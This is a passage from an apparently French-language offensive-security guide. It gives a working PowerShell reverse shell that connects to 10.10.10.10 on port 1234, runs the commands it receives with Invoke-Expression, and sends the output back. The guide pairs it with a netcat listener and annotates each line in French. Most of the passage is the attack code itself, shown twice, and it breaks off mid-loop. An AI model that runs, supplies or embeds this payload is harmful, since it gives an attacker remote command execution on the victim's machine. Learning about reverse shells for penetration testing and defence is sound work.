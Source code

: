        while (($i = $s.Read($b, 0, $b.Length)) -ne 0) {
           $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b, 0, $i);
           $sb = (iex $data 2>&1 | Out-String);
           $sb2 = $sb + 'PS ' + (pwd).Path + '> ';
           $sbt = ([text.encoding]::ASCII).GetBytes($sb2);
           $s.Write($sbt, 0, $sbt.Length);
           $s.Flush();
       };

       $client.Close();
       "

       ```
       {% endcode %}
4.  **Recevoir la connexion dans Netcat :**

    ```bash
    nc -lvnp 1234
    ```

**Remarque :**

Un Reverse Shell peut être fragile ; toute interruption nécessite de réexécuter la commande de Reverse Shell.

{% code fullWidth="true" %}
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 1234);
# Crée un nouvel objet TCPClient qui se connecte à l'adresse IP 10.10.10.10 sur le port 1234.
# Cela établit une connexion à un serveur distant, qui peut être utilisé pour recevoir des commandes.

$s = $client.GetStream();
# Récupère le flux de données associé à la connexion TCP établie.
# Ce flux permet de lire et d'écrire des données sur la connexion.

[byte[]]$b = 0..65535 | %{ 0 };
# Initialise un tableau de bytes de taille 65536, rempli de zéros.
# Ce tableau servira de tampon pour stocker les données lues depuis le flux.

while (($i = $s.Read($b, 0, $b.Length)) -ne 0) {
    # Boucle tant que des données sont lues depuis le flux.
    # $s.Read lit les données entrantes et renvoie le nombre de bytes lus.
    # Si aucune donnée n'est lue (le flux est fermé), la boucle s'arrête.

    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b, 0, $i);
    # Convertit les bytes lus en une chaîne de caractères en utilisant l'encodage ASCII.
    # $data contient donc les commandes envoyées par l'attaquant via la connexion TCP.

    $sb = (iex $data 2>&1 | Out-String);
    # Exécute la commande contenue dans $data en utilisant `Invoke-Expression` (iex).
    # Redirige la sortie standard et les erreurs (2>&1) pour capturer tout ce qui est renvoyé.
    # La sortie est convertie en chaîne de caractères complète avec `Out-String`.

    $sb2 = $sb + 'PS ' + (pwd).Path + '> ';
    # Prépare la sortie à envoyer de retour à l'attaquant.
    # Ajoute l'invite de commande "PS [chemin actuel] > " pour simuler un terminal PowerShell.

    $sbt = ([text.encoding]::ASCII).GetBytes($sb2);
    # Convertit la chaîne de caractères de la sortie en un tableau de bytes en utilisant l'encodage ASCII.

    $s.Write($sbt, 0, $sbt.Length);
    # Écrit la réponse sur le flux de données, l'envoyant ainsi au serveur/attaquant.

    $s.Flush();
```